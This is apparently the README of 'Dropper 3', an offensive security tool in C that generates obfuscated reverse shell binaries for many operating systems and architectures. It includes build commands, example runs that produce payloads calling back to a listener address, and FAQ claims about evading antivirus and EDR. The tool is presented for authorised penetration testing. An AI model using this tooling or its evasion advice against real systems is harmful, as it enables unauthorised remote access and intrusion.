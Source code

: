 # Dropper 3 (BCE) - The end of a five year long payload generation odyssey.

![](assets/dropper-3-odyssey.gif)

## Prelude

I started this project to discover a fast and efficient way to generate a reverse shell binary payload without a whole lot of fuss for Cyber Security Experts and Red Teamers alike. From the start, I wanted to use a language that I wasn’t too familiar with, as a challenge for myself in utilizing to develop my solution. I decided to go with Golang since it was rather popular at the time in our community, and I was anxious to learn the language to keep up with the ever evolving trends in InfoSec. Very quickly I realized how powerful a language like Golang is, as well as some of its common drawbacks. As <a href="https://github.com/byt3bl33d3r">Byt3bl33d3r</a> so elequently put it, Go makes THICC malwares, like 1.8 MB THICC! 😳 Not only that, but the Golang runtime environment and related artifacts tend to migrate with any binary file compiled on ones local system, thus leaving tons of forensic clues for Blue Teamers to determine the origin from where the payload was created, and what tools were used, etc. Just a mess. 

Enter Dropper2. While this project served its purpose at addressing all these pesky artifacts left behind, as best as possible, without going full <a href="https://github.com/burrowers/garble">Garble</a> with it, coupled with some randomized obfuscation, helped get the job done at evading Anti-Virus, and some EDR solutions, at least for a little while. The next step in this evolutionary journey was to test out another unique language growing in popularity, Rust. Over the course of a month, learning the language well enough to be dangerous, and creating <a href="https://github.com/Elmofire/ef">Elmofire</a> as a result, I had yet another obfuscated payload generator, leaving Golang behind, at least for now. After all was said and done, Elmofire, the new and improved Dropper, a solution for the community without all the bloated chubby gophers, and yet, I still felt something was missing from my journey into malware development. 

I decided to take a step back and focus on what other malware authors (good and bad) have used in the past. After thumbing through what seems like endless lines of source code on <a href="https://github.com/vxunderground/MalwareSourceCode">VXUG’s Github</a>, I noticed a very obvious common pattern in language choice: C/C++. This was it! I had always wanted to learn C/C++ but had no idea where to start those 5 years ago. I had learned a great deal regarding low level programming since then, including Assembly fundamentals on various architechtures. Finally, my mind felt ready, and like I’ve always done, I rewrote Dropper, now for a 3rd and final time in C. Taking it way back, (Before the Common Era) 😉

So, with the back story out of the way, may I present: Dropper 3.0 (BCE).

## Dependencies

Given the fact we're using C, you're gonna need every type of compiler used by Dropper3 to build each type of binary payload. Run the following command to install the necessary compilers and build libraries:
<code>sudo apt install gcc make gcc-mingw-w64 binutils-mingw-w64 gcc-mingw-w64-i686 binutils-mingw-w64-i686 gcc-mingw-w64-x86-64 binutils-mingw-w64-x86-64 gcc-x86-64-linux-gnux32 binutils-x86-64-linux-gnu gcc-sparc64-linux-gnu binutils-sparc64-linux-gnu gcc-riscv64-linux-gnu binutils-riscv64-linux-gnu gcc-powerpc-linux-gnu binutils-powerpc-linux-gnu gcc-powerpc64-linux-gnu binutils-powerpc64-linux-gnu gcc-mips-linux-gnu binutils-mips-linux-gnu gcc-mips64-linux-gnuabi64 binutils-mips64-linux-gnuabi64 gcc-i686-linux-gnu binutils-i686-linux-gnu gcc-hppa-linux-gnu binutils-hppa-linux-gnu gcc-hppa64-linux-gnu binutils-hppa64-linux-gnu gcc-alpha-linux-gnu binutils-alpha-linux-gnu gcc-arm-linux-gnueabi binutils-arm-linux-gnueabi gcc-aarch64-linux-gnu binutils-aarch64-linux-gnu gcc-s390x-linux-gnu binutils-s390x-linux-gnu</code>

## Usage

Usage is the same as its predecessors, simply compile the source using <code>gcc -o dropper3 dropper3.c</code> and run <code>./dropper3 -h</code>

E.g. Help Menu
<pre>
$ ./dropper3 -h
Usage: Usage of dropper3:
  -a string
                Architecture: i686, amd64, arm, arm64, powerpc64, powerpc, mips, mips64, s390x, sparc64, riscv64, hppa, hppa64, alpha
  -l string
                Listening host: <listening ip:port>
  -o string
                Output filename: <anything goes>
  -p string             Operating System: windows, linux
  -s string
                Shell type: cmd, powershell, /bin/sh, /bin/bash, /usr/bin/zsh, /system/bin/sh, /bin/busybox
</pre>

E.g. Windows Payload
<pre>
$ ./dropper3 -p windows -a amd64 -l 10.12.1.99:1337 -o potato -s cmd
Operating System: windows
Architecture: amd64
Listening host: 10.12.1.99:1337
Output filename: potato
Shell type: cmd
Payload built successfully
</pre>

Confirm result using the <code>file</code> command
<pre>
$ file potato.exe 
potato.exe: PE32+ executable (console) x86-64, for MS Windows
</pre>

E.g. Linux Payload
<pre>
$  ./dropper3 -p linux -a arm64 -l 10.12.1.99:31337 -o chips -s /bin/sh  
Operating System: linux
Architecture: arm64
Listening host: 10.12.1.99:31337
Output filename: chips
Shell type: /bin/sh
Payload built successfully
</pre>

Confirm result using the <code>file</code> command
<pre>
$  file chips 
chips: ELF 64-bit LSB pie executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, BuildID[sha1]=9eefe4521695a769e0a384e87d1d8ea89b45fd8b, for GNU/Linux 3.7.0, not stripped
</pre>

## F.A.Q.

“So what exactly does this accomplish?”

- Other than my own personal accomplishments, not much; only now instead of producing THICC malwares, the payloads created by Dropper 3 are much smaller, like 1.5MB smaller! Huzzah!

“Besides the weight loss, how much has really changed?”

- Not much to be honest. Still using the same obfuscation and randomization techniques as done in Dropper2. Payloads will still evade off-the-shelf signature-based Anti-Virus, however, for EDRs, you’ll want to couple one of these generated payloads with other techniques, such as Fileless PE Loading, Process Hollowing, Döppleganging, etc. Check out <a href="https://github.com/hasherezade/">Hasherazade’s Github</a> for more awesome research on the topic.

“Is this really the end?”

- Yes, this is the end for Dropper rewrites and language developments. I had initially used this project as an intermediate form of <i>Hello World</i> for malware developers, and I highly recommend anyone out there reading this to follow the same principal. Take an idea for some really cool malware/innocent program you’d like to create, then pick a language you’ve never used before and learn it! Learn that language to build the program you want to see come to life in the language you want to see it written in. I promise you, you’ll learn way more than you ever thought you would, and you’ll become a better developer because of it.

“How about that disclaimer?”

- Awww here it goes! 😎

## Disclaimer

This tool is intended for Penetration Testers, Security Researchers and Red Teamers alike. DO NOT USE this tool for ILLEGAL purposes or WITHOUT the CONSENT from the parties involved while agreed upon by LEGAL DOCUMENTATION or PERMISSIVE ACCESS for security consultation or research purposes. I, hereby relinquish ALL responsibility for any illegal use of this tool or ANY binary payloads subsequently generated by the tool as described. You have been warned.
